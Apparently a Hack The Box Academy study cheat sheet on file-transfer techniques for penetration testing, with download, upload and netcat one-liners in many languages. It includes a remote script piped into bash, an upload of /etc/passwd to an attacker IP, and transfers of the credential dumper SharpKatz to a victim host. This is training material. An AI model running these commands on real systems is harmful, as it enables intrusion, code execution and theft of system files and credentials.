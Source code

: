 
## Download
#### Python
```shell
h@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

```shell
h@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
[[python]]

#### PHP
```shell
h@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```shell
h@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

```shell
h@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
[[php]]

#### Ruby
```shell
h@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

```shell
h@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
[[ruby]]

#### JS [[js]]
Create wget.js:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Run:
```powershell
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
[[powershell]]

#### VB [[vbscript]]
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload
```shell
python3 -m uploadserver 
```

```shell
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## Misc

[[ncat]] [[nc]] 
Recieve
```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

```shell
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```shell
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

Send
```shell
jabrach@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### PowerShell Session File Transfer
[[powershell]]
```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### RDP
[[rdp]]
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```


